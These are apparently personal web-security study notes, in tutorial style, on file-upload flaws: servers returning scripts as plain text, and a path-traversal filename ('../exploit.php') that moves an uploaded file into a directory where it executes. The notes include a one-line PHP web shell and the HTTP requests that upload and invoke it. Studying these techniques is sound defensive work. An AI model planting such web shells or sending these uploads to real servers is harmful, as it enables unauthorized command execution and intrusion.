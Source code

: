 While it's clearly better to prevent dangerous filetypes to be uploaded in the first place, the second line of defense is to stop the server from executing any scripts that slip through the first line of filtering.

As a precaution, servers generally only run scripts whose MIME type have been whitelisted. Otherwise, they may just return some kind of an error message, or in some cases, serve the contents of the file in plain text instead:
```http
GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com
```
```http
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 39

<?php echo system($_GET['command']); ?>
```
While this prevent a web shell from being executed. This kind of configuration often differs between directories. A directory where user-supplied files are uploaded will likely have more stricter controls than other directories. If an attacker can exploit a [path traversal vulnerability](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FPath%20Traversal%2FIntroduction), they may still be able to upload malicious files and the server executing it.
1. Intercept the HTTP request and send it to Burp Repeater
2. Modify the request body to include a path traversal sequence:
```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="../exploit.php"
Content-Type: text/x-php

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"

wiener
---------------------------012345678901234567890123456--
```
